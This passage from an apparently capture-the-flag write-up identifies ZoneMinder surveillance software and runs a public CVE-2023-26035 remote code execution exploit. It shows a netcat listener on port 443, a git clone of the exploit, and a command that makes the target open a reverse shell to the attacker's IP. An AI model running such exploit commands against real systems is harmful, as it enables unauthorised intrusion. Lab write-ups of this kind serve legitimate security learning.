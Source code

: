 Searching in google, we can see that Zoneminder is a video surveillance software system:

![Zoneminder search](/assets/images/Surveillance/zoneminder_search.png)

Looking for exploits on google, we found [this](https://github.com/rvizx/CVE-2023-26035) one that says to exploit an RCE:

![Zoneminder exploit page](/assets/images/Surveillance/zoneminder_exploit_page.png)

Now let's execute it:

```bash
❯ nc -lvnp 443
❯ git clone https://github.com/rvizx/CVE-2023-26035
❯ cd CVE-2023-26035
❯ python3 exploit.py -t http://localhost:8080 -ip 10.10.14.114 -p 443
```
